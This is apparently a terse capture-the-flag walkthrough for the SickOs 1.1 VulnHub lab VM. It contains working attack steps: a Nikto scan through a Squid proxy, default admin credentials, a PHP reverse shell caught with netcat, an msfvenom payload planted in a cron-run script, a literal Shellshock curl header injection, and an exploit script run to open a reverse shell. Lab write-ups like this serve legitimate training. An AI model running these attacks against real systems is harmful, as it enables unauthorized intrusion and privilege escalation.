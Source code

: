 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto: 
>> Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128
![](Assets/3.png)

Burp proxy 192.168.1.11 : 3128  >>>> 192.168.1.11/robots.txt

Admin:admin

Added ip and port to php Reverse shell

Uploaded php reverse shell

Nc -nvlp 1234 & visited url of shell >> got shell

Visited var/www


Method 1: Using connect.py

Rw permissions for connect.py. Visit cron.d

Create payload with msfvenum 

Echo payload to connect.py

Nc -nvlp 7777


Method 2: using config.php

config.php



Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo


